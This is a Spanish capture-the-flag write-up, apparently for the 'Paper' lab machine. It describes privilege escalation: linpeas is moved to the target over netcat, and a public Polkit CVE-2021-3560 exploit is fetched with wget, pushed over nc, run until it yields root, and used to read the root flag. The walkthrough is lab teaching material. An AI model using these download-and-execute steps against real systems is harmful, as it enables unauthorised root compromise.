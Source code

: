 En máquina víctima:
```
> nc -nlvp 4448 > linpeas.sh
```
En mi máquina:
```
> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

> nc 10.10.11.143 4448 < linpeas.sh

CTRL + C
```
Y lanzamos el linpeas:
```
> chmod +x linpeas.sh
> ./linpeas.sh
```
Esperamos a que finalice. Y vemos unos cuantos vectores por donde atacar.  

![Linpeas]({{ 'assets/img/writeups/Paper/linpeasBueno.png' | relative_url }}){: .center-image }


Aquí es ir probando, informarte y romperte la cabeza, cuanto más te la rompas más aprendes.

Empecé probando por el CVE-2022-2588 pero no había manera de que funcionará. Después de ese opté por el CVE-2021-4034 de Pwnkit:  
Buscando articulos mediante la búsqueda "pwnkit exploit" encuentro uno interesante y al final de este me señala que hay otro CVE más nuevo. El artículo es este: https://hackinglethani.com/es/pwnkit/  

Pienso "si hay un más nuevo quizás será mejor y hayan corregido fallos de anteriores CVE". Así que elijo el CVE-2021-3560.  
Utilizo este exploit: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

En máquina objetivo:
``` 
> nc -nlvp 4448 > poc.sh
```

En mi máquina:
```
> wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh

> nc 10.10.11.143 4448 < poc.sh
``` 
Ahora en máquina objetivo damos permisos de ejecución y ejecutamos el exploit:
```
> chmod +x poc.sh
> ./poc.sh
```
Lanzalo varias veces hasta que funcione.

![Root]({{ 'assets/img/writeups/Paper/root.png' | relative_url }}){: .center-image }

Y conseguimos la flag de root:
```
> cat /root/root.txt

c41a28abb69f64e**************
```
Este es mi primer Writeup, ser benévolos conmigo ;). Un saludito guapis.
